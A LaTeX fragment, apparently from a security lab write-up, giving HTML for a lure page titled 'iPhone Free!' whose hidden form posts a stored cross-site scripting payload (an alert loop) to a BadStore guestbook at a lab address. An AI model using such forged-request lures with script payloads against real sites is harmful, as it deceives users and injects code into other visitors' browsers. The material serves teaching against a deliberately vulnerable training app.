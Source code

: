 \begin{enumerate}
	\begin{itemize}
		\item Write a simple page containing these code:
		\par
		\begin{lstlisting}[language=HTML,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily]
<!DOCTYPE html>
<html>
<head>
	<title>iPhone Free!</title>
</head>
<body>
	<FORM METHOD="POST" ACTION="http://10.0.2.5/cgi-bin/badstore.cgi?action=doguestbook">
		<INPUT TYPE=hidden NAME=name value="<script>for(var i=0;i<10000;i++){alert('HHHH');}</script>" SIZE=30>
		<INPUT TYPE=hidden NAME=email value="1" SIZE=40>
		<TEXTAREA style="display:none" NAME=comments COLS=60 ROWS=4 value="aaa"> </TEXTAREA>
		<INPUT TYPE=submit VALUE="Get Now!">  
		<INPUT style="display:none" TYPE=reset></Center>
	</FORM>
</body>
</html>


\end{lstlisting}
\end{itemize}
\end{enumerate}
